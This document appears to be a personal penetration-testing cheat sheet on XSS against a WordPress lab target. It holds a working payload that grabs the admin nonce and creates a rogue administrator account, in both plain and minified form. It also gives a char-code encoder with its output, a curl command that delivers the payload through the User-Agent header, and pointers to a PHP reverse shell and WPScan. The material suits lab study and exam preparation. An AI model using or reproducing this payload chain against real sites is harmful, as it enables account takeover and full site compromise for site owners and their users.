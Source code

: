 ### Cross-Site Scripting (XSS)  - **XSS Tools - HackTricks**   - [Link](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-tools)  
### Common Special Characters for XSS  - ` > ' " { } ;`  
### Resources  - [Percent-encoding - Wikipedia](https://en.wikipedia.org/wiki/Percent-encoding)  
## Privilege Escalation via XSS 
### JavaScript Code for Nonce  
```javascript var ajaxRequest = new XMLHttpRequest(); var requestURL = "/wp-admin/user-new.php"; var nonceRegex = /ser" value="([^"]*?)"/g; ajaxRequest.open("GET", requestURL, false); ajaxRequest.send(); var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); var nonce = nonceMatch[1]; var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator"; ajaxRequest = new XMLHttpRequest(); ajaxRequest.open("POST", requestURL, true); ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); ajaxRequest.send(params);``

### Compressed JavaScript

javascriptCopy code

`var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);`

### Encoding to JavaScript

javascriptCopy code

`function encode_to_javascript(string) {     var input = string     var output = '';     for(pos = 0; pos < input.length; pos++) {         output += input.charCodeAt(pos);         if(pos != (input.length - 1)) {             output += ",";         }     }     return output; }  let encoded = encode_to_javascript('var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);') console.log(encoded)`

### Result of Code Run in Console



`118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112`

### Usage Example with CURL

`curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(...));</script>" --proxy 127.0.0.1:8080`

### WordPress Reverse Shell

- [WordPress: Reverse Shell - Hacking Articles](https://www.hackingarticles.in/wordpress-reverse-shell/)
### Finding WordPress with WPScan

bashCopy code
`wpscan --url http://offsecwp/`

### Reverse Shell PHP Script for Wordpress

- [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Use the **tun0** IP address for the reverse shell.

